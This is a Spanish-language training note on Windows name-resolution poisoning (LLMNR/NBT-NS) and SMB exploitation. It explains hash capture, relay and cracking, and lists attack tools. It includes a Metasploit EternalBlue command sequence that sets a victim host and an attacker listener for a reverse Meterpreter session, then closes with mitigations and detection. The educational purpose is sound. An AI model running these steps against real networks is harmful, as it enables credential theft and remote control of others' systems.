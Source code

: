 # Tema 1: Resolución de Nombres de Windows y Explotación de SMB

Este documento combina la información del curso sobre ataques de resolución de nombres (LLMNR/NBT-NS) y la explotación directa de vulnerabilidades en el protocolo SMB.

---

## 1. Fundamentos de la Resolución de Nombres en Windows

La resolución de nombres es el proceso de convertir un nombre de host en una dirección IP. Windows utiliza varios métodos:

1.  **DNS (Domain Name System):** El método principal y más seguro.
2.  **LLMNR (Link-Local Multicast Name Resolution):** Un protocolo de respaldo basado en el formato DNS que opera en la red local (enlace local).
3.  **NetBIOS (Network Basic Input/Output System):** Un protocolo heredado para la resolución de nombres en redes locales.

Cuando el DNS falla, los clientes de Windows recurren a LLMNR y NetBIOS, abriendo la puerta a ataques de envenenamiento.

### Servicios y Puertos Clave de NetBIOS y SMB

| Puerto      | Protocolo | Servicio                                                               |
| :---------- | :-------- | :--------------------------------------------------------------------- |
| TCP 135     | TCP       | Microsoft RPC (MS-RPC), usado para comunicación cliente-servidor.      |
| **UDP 137** | **UDP**   | **Servicio de Nombres NetBIOS (NetBIOS-NS)** para registro y resolución. |
| UDP 138     | UDP       | Servicio de Datagramas NetBIOS (NetBIOS-DGM) para comunicación sin conexión. |
| TCP 139     | TCP       | Servicio de Sesión NetBIOS (NetBIOS-SSN) para comunicación orientada a conexión. |
| **TCP 445** | **TCP**   | **SMB (Server Message Block)**, para compartición de archivos y recursos. |

---

## 2. Ataque de Envenenamiento de LLMNR y NBT-NS

Esta es una de las vulnerabilidades más comunes en redes internas.

### Flujo del Ataque

1.  **Fallo de DNS:** Un cliente intenta acceder a un recurso (ej: `\SERVIDOR_INEXISTENTE`) y el servidor DNS no puede resolverlo.
2.  **Consulta Multicast/Broadcast:** El cliente envía una consulta LLMNR (puerto UDP 5355) o NBT-NS (puerto UDP 137) a toda la red local preguntando por el recurso.
3.  **Envenenamiento:** Un atacante en la misma red responde a la consulta antes que nadie, afirmando ser el recurso solicitado.
4.  **Captura de Credenciales:** El cliente víctima intenta autenticarse contra la máquina del atacante. En este proceso, envía el **nombre de usuario y el hash NTLMv2** de la contraseña.
5.  **Uso del Hash:** El atacante, una vez con el hash, puede:
    *   **Crackearlo Offline:** Usar herramientas de fuerza bruta (`Hashcat`, `John the Ripper`) para obtener la contraseña en texto plano.
    *   **Retransmitirlo (Pass-the-Hash / SMB Relay):** Usar el hash directamente para autenticarse en otros sistemas como si fuera el usuario víctima.

### Herramientas de Ataque

*   **Responder:** La herramienta por excelencia para automatizar el envenenamiento de LLMNR/NBT-NS y la captura de hashes.
*   **NBNSpoof:** Una herramienta más antigua para realizar envenenamiento de NBT-NS.
*   **Metasploit Framework:** Contiene módulos para realizar estos ataques.
*   **Pupy:** Herramienta de administración remota (RAT) que incluye estas capacidades.

---

## 3. Explotación Directa de SMB

SMB ha sido históricamente uno de los protocolos con más vulnerabilidades críticas. La base de datos de `exploit-db` contiene docenas de ellas, como se puede verificar con el comando `searchsploit smb`.

### Caso de Estudio: EternalBlue (MS17-010)

*   **Origen:** Una de las explotaciones más famosas, filtrada por el grupo "Shadow Brokers" y atribuida a la NSA.
*   **Vulnerabilidad:** Permite la **ejecución de código remoto (RCE)** sin autenticación en sistemas Windows que utilizan una versión vulnerable del protocolo SMBv1.
*   **Impacto:** Fue la base para ataques de ransomware masivos como **WannaCry** y **Nyeta (NotPetya)**.

### Ejemplo de Explotación con Metasploit

El siguiente es un resumen del proceso para usar EternalBlue en Metasploit:

```bash
# Iniciar Metasploit
msfconsole

# 1. Seleccionar el módulo de la explotación
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# 2. Ver las opciones requeridas
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

# 3. Configurar los parámetros obligatorios
# RHOSTS: La(s) IP(s) de la(s) víctima(s)
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.1.1.2

# LHOST: Nuestra IP, para recibir la conexión inversa
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.66.6

# 4. Lanzar el ataque
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

# Si tiene éxito, se obtiene una sesión de Meterpreter para controlar el sistema.
```

---

## 4. Enumeración y Reconocimiento

Antes de atacar, es crucial identificar sistemas vulnerables. La enumeración permite descubrir información valiosa.

*   **Nmap:** Puede usarse con scripts (NSE) para detectar versiones de SMB, sistemas operativos y vulnerabilidades como MS17-010.
*   **Enum4linux:** Una herramienta específica para enumerar información de sistemas Windows a través de SMB, como listas de usuarios, recursos compartidos, etc.

---

## 5. Mitigación y Detección

### Mitigación

1.  **Deshabilitar LLMNR y NetBIOS:** Es la medida más efectiva contra el envenenamiento. Se puede realizar mediante GPO (Group Policy Object) en un entorno de dominio.
2.  **Exigir Firma de SMB (SMB Signing):** Previene los ataques de retransmisión (SMB Relay) al verificar la integridad y autenticidad de los paquetes SMB.
3.  **Deshabilitar SMBv1:** Un protocolo obsoleto y extremadamente inseguro, principal culpable de la propagación de EternalBlue.
4.  **Segmentación de Red:** Limita el alcance de las consultas broadcast/multicast y aísla sistemas críticos.

### Detección

*   Se puede monitorear la clave de registro `HKLM\Software\Policies\Microsoft\Windows NT\DNSClient` para detectar cambios en el valor DWORD de `EnableMulticast`. Si el valor es `0`, LLMNR está deshabilitado. Cambios inesperados a `1` podrían indicar una actividad maliciosa.